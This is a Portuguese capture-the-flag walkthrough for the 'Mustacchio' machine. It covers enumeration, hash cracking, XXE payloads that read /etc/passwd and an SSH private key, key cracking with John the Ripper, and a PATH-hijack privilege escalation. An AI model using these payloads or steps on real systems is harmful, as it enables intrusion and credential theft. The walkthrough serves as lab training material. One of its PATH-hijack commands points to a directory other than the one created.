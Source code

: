# _**Mustacchio CTF**_
![](bigode.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos duas páginas web:
* porta 80: página normal
* porta 8765: página de login

Vamos realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

## _**Ganhando acesso**_

Investigando as páginas descobertas, encontramos um arquivo _.bak_  
Baixamos este arquivo e utilizamos ```strings``` para verificar seu conteúdo  

![](strings_result.jpg)

Parece que temos um nome de usuário e hash de senha  
Investigando a hash no site [crackstation](https://crackstation.net/), temos o seguinte resultado  

![](crackstation.jpg)

Vamos tentar estas credenciais na página de login  
Temos login com sucesso!  

![](login_success.jpg)

Investigando a página e tentando alguns códigos XML, não temos nenhum resultado  
Mas, verificando o código da página, temos uma pista!  

![](ssh_key.jpg)

Procurando outras informações, chegamos na seguinte parte  

![](bak.jpg)

Vamos tentar acessar o conteúdo de: _/auth/dontforget.bak_  
Usando ```strgins```, tentamos buscar por informações escondidas, mas não obtemos nada de relevante  
Executando o comando ```file```, temos que é um arquivo XML  
Vamos tentar inserir esse parágrafo no campo que descobrimos anteriormente  

![](xml_return.jpg)

E olhe só, temos retorno!  
Vamos alterar o conteúdo da cópia para podermos detectar uma vulnerabilidade ou buscar arquivos específicos  
[Neste site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability) podemos encontar uma dessas maneiras
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE comment [
>   <!ENTITY xxe SYSTEM "file:///etc/passwd">
> ]>
> <comment>
>   <name>&xxe;</name>
>   <author>Barry Clad</author>
>   <com>Testando XXE para leitura de arquivos</com>
> </comment>
> ```

Temos retorno do arquivo do qual estavamos buscando!  

![](etc_passwd.jpg)

Informações relevantes foram descobertas  
Temos dois usuários:
* barry
* joe

E também sabemos que é necessário uma chave para realizar login SSH  
Geralmente, o arquivo _id_rsa_ está localizado em /home/[username]/.ssh/id_rsa  
Vamos alterar nosso _payload_ para conseguirmos obter esse arquivo  
> ```
> <?xml version="1.0" encoding="UTF-8"?>
> <!DOCTYPE comment [
>   <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">
> ]>
> <comment>
>   <name>&xxe;</name>
>   <author>Barry Clad</author>
>   <com>Testando XXE para leitura de arquivos</com>
> </comment>
> ```

Conseguimos obter a chave!  

![](key.jpg)

Agora, vamos quebrar ela com <mark>John the Ripper</mark>  
> ```bash
> ssh2john id_rsa > hash
> john -w=../wordlists/rockyou.txt hash
> ```
![](john_break.jpg)

Vamos realizar login via SSH como usuáro Barry agora  

![](barry_login.jpg)

## _**Escalando privilégios**_
Encontramos já de cara após poucos comandos um arquivo para investigarmos: _/home/joe/livelog_  

![](joe.jpg)

Investigando o arquivo com ```strings```, vemos o seguinte comando: _tail -f /var/log/nginx/access.log_  
Isso nos mostra que o binário está sendo executado sem um _path_ completo, isto é, não usando _/usr/bin/curl_ ou _/usr/bin/uname_  
Para podermos explorar isso, vamos realizar os seguintes passos:
> Crie um novo diretório na pasta /tmp/: <mark>mkdir /tmp/example</mark>
> Vá para essa pasta criada: <mark>cd /tmp/example</mark>
> Altere a pasta _/usr/bin_ para _/tmp/example_: <mark>export PATH=/tmp/shell:$PATH</mark>
> Crie um arquivo _tail_ e digite estes dois comandos: <mark>echo ‘#!/bin/bash’ > tail</mark> & <mark>echo ‘/bin/bash’ >> tail</mark>  
> Alterar as permissões para o arquivo _tail_: <mark>chmod +x tail</mark>  
> Volte para _live_log_ e execute o arquivo: <mark>./live_log</mark>

![](root.jpg)

Basta agora obter a última flag!
